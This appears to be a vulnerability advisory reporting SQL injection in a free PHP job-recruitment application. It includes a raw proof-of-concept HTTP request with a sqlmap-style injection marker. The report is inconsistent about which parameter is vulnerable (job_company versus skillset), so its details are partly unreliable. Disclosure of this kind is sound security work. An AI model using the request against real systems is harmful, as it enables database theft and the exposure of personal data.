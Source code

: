 # job-recruitment-in-php has sql injection vulnerability in job_company parameter

## supplier 
https://code-projects.org/job-recruitment-in-php-css-javascript-and-mysql-free-download/
## Vulnerability file
skillset parameter. 



## describe

An unrestricted SQL injection attack exists in a job-recruitmentsystem. The parameters that can be controlled are as follows: job_company. This function executes the job_company parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

**Code analysis**    

When the parameter value of $POST['job_company'] is obtained in add_xp action , it will be concatenated into SQL statements and executed, which has a SQL injection vulnerability. 

![image-20241224233706289](sql42(未交).assets/image-20241224233706289.png)



## POC

```
POST /_parse/_all_edits.php HTTP/1.1
Host: airecruitmentsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencodedz
Content-Length: 17
Origin: http://airecruitmentsystem
Connection: close
Referer: http://airecruitmentsystem/_parse/_all_edits.php
Cookie: PHPSESSID=8dupfdh7itn07vib4qplosg4dv
Upgrade-Insecure-Requests: 1
Priority: u=0, i

skillset%5B%5D=1*
```

**Result**

![image-20241224233632120](https://github.com/user-attachments/assets/a4642677-e12b-4e60-920f-90593e150d48)

Get tables

![image-20241213201627253](https://github.com/user-attachments/assets/4314c675-b9dd-4809-9aca-eb525b3e3326)

**Discover**

西安电子科技大学： 李腾，谢亚轩，刘芮彤